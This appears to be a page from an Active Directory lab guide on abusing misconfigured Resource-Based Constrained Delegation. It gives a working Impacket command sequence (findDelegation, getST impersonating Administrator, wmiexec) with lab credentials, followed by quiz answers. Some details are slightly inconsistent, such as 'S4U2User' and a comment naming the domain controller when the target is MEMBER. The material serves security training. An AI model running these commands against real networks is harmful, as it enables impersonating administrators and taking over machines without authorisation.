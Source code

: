 # RBCD Abuse
We've seen how both unconstrained and constrained delegation can be abused in this guide. Misconfigured Resource-Based Constrained Delegation can also be abused. Misconfigurations include allowing a low-privileged user to hold delegation rights to sensitive services, much like what happens in the Constrained Delegation Abuse section.

Let's take a look at which delegation rights are set in the domain, and see if some low-privileged user can delegate tickets to sensitive services:
```
findDelegation.py POLARIS.ALTAIR.LOCAL/skyler.white:Password123 -target-domain polaris.local
```

We see that saul.goodman can delegate tickets to any service hosted by MEMBER. This means that the user can impersonate any other user while accessing this server, through means of the S4U2User and S4U2Proxy extensions. Fortunately for us, we've been able to retrieve this user's credentials from its own user account description attribute that the user forgot to delete. Now, we can use Saul's credentials and access the MEMBER CIFS service as the administrator, for example, compromising the MEMBER machine.

```
#retrieve a ticket for the CIFS service in member as the administrator
getST.py -spn 'CIFS/member' -impersonate Administrator -dc-ip '192.168.122.10' 'polaris.local/saul.goodman:beTTer2caLL2me'
#set the krb5ccname environment var to the new ccache file
export KRB5CCNAME=/home/ubuntu/Administrator.ccache
#use the ticket to access the domain controller through a shell as the administrator
wmiexec.py -k -no-pass polaris.local/administrator@member
#now you've gained access to the MEMBER machine and can execute commands through the CIFS service
whoami
```

!!! question 
    What is the risk of misconfigured RBCD?
??? success "Answer"
     If a low-privileged account is granted delegation rights to a sensitive machine, it can abuse Kerberos extensions (S4U2Self + S4U2Proxy) to impersonate any user, including domain administrators, when authenticating to that machine, and access any service. This effectively lets the attacker gain privileged access without needing the admin’s password or hash.
!!! question
    Which is the most granular type of delegation between Constrained and RBCD?
??? success "Answer"
    Constrained delegation is more granular, since in CD, an administrator determines to which specific services a service can delegate tickets to. In RBCD, a service account defines which other accounts can delegate tickets to it. The service account may host many different services, and RBCD allows delegation to any of these, while CD would only allow delegation to specific services.